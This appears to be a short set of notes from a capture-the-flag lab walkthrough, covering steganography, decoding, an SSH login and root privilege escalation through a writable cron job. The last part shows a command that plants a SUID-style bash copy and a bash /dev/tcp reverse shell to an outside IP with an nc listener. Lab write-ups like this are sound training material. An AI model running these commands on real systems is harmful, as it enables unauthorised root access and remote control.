 -  if there are images check for hidden information in them (steganography), or metadata with `exiftool`
-  `steghide --info [image.jpg]` and `steghide extract -sf [image.jpg]` (passphrase required) for steganography stuff.
-  remember to check the source code of the page.
- `base62` decoding
- `md5` hashing value - the second flag is set as UserAgent in `robots.txt`
-  `linpeas.sh` for privilege escalation info
-  used `ssh -p 6498 boring@machine_ip`, because the machine was not using the default ssh port (22)
-  had to deal with a cute `ROT13` algorithm
-  https://juggernaut-sec.com/cron-jobs-lpe/ - interesting cron job exploitation methods. 
-  for the privesc part: there is a cronjob running as root every minute called `.mysecretcronjob.sh` located in `/var/www/`, but `.mysecretcronjob` could be modified by the user `boring` , so the line `cp /bin/bash /tmp && chmod 775 /tmp/bash` could be appended, so every minute this bash could be executed by everyone with the `-p` flag.
![[bash p flag.png]]
-  you can also set up a reverse shell with bash by adding: `bash -i &> /dev/tcp/10.21.55.48/4444` to the cronjob and setting up a listener with `nc -nlvp 4444` on another terminal
 ![[reverse_shell_easy_peasy.png]]